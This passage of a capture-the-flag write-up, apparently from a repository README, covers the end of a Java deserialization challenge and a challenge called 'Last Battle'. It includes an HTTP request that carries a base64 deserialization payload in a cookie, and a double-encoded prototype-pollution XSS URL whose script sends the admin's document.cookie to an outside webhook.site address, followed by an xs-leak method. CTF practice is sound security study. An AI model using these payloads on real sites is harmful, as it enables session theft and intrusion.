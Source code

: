 ```
        System.out.println(base64Mission);

    } catch (NoSuchFieldException e) {
    } catch (IllegalAccessException e) {
    } catch(IOException e) {
    }

  }
}
```

4. Use the base64 payload in a cookie in the following request:

```
GET /latest_mission HTTP/1.1
Host: 18.207.239.107
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Connection: close
Cookie: latest_mission=YOUR-B64-PAYLOAD-HERE
Cache-Control: max-age=0

```
## Flag

FLAG{J4vA_Des3rialization_1s_Th3_B3sT_U_kNoW?}


# 7th challenge: Last Battle

The goal of this challenge is to leak the flag from the admin by triggering a 500 error. This can be done using prototype pollution in the "/view" route caused by "arg.js", and then using the admin cookie and xs-leak script.

## Steps

1. Use the following URL to leak the admin cookie (note that the xss payload needs to be double-encoded):

```
http://34.204.107.224/view?id=aa%26constructor%5Bprototype%5D%5Bsrcdoc%5D%3D%253Cscript%253Efetch%28%2522https%3A%2F%2Fwebhook.site%2Fxxxxxxxx%253Fa%253D%2522%252Bdocument.cookie%29%253C%2Fscript%253E
```

2. Use the xs-leak script, which is based on the **hop by hop headers technique**. This will cause the code to fail if the user agent header is not found.
3. Check the "status_code" to determine if the search string is correct. If the status code is 500, the search string is correct. If not, continue searching until the full flag is found.

## Flag

FLAG{h0p_bY_h0p_T0_k1lL_h0pEs}

